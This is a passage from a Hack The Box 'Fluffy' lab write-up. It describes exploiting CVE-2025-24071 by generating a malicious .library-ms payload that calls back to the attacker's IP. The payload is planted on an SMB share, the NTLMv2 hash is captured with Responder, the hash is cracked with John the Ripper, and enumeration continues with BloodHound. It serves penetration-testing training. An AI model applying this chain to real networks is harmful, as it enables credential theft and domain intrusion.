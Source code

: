 ![image.png](HTB%20-%20Fluffy%20241abd12558f8008ace3e873f3f63c8d/image%205.png)

- This vulnerability resides in how Windows Explorer handles ‘.library-ms’ files.
- From earlier, I notice a file in the SMB share ‘IT’ called `payload.library-ms`.

# Exploitation of CVE-2025-24071

During enumeration, I discovered that the target was vulnerable to **CVE-2025-24071**, a recently disclosed flaw affecting Microsoft Windows library handling. The vulnerability allows for the disclosure of **NTLMv2 hashes** when a specially crafted `.library-ms` file is opened from a remote share.

To exploit this, I located a **public Proof-of-Concept (PoC)** script on GitHub that automates the creation of the malicious payload. Using the script, I generated a payload file (`payload.library-ms`) which, once opened on the target, forces the system to authenticate to my attacking machine and leak NTLMv2 credentials. : https://github.com/DeshanFer94/CVE-2025-24071-POC-NTLMHashDisclosure-/blob/main/POC/CVE-2025-24071.py

The command I executed was:

python3 <pocscript> payload 10.10.14.41

This created the malicious payload successfully, as shown in the screenshot. The payload was then prepared for delivery to the target.

![image.png](HTB%20-%20Fluffy%20241abd12558f8008ace3e873f3f63c8d/image%206.png)

**Delivering the Malicious Payload via SMB**

After creating the malicious `.library-ms` payload using the CVE-2025-24071 PoC, the next step was to deliver it to the target system. During enumeration, I had discovered valid SMB credentials (`j.fleischman`) that allowed me to access the `IT` share on the target.

![image.png](HTB%20-%20Fluffy%20241abd12558f8008ace3e873f3f63c8d/image%207.png)

After placing the malicious `.library-ms` payload onto the SMB share, I set up **Responder** on my attacking machine to capture any outbound NTLM authentication attempts that would occur when a user interacted with the payload.

![image.png](HTB%20-%20Fluffy%20241abd12558f8008ace3e873f3f63c8d/image%208.png)

At this point, I had a valid NTLMv2 hash for `p.agila`, which could be cracked to recover the user’s plaintext password. This step was critical because it allowed me to escalate from just uploading a payload to having valid domain credentials.

Using the NTLMv2 hash I had captured earlier, I ran **John the Ripper** with the `netntlmv2` format and the `rockyou.txt` wordlist to get the password.

![image.png](HTB%20-%20Fluffy%20241abd12558f8008ace3e873f3f63c8d/image%209.png)

# BloodHound Analysis

After successfully capturing and cracking an NTLMv2 hash, I obtained valid credentials for the domain user `p.agila@fluffy.htb`. To assess this user's privileges within the domain and identify potential escalation paths, I used the Python-based BloodHound collector, `bloodhound.py`, which allows for LDAP and Kerberos-based enumeration directly from my Kali machine without needing to execute code on the target.
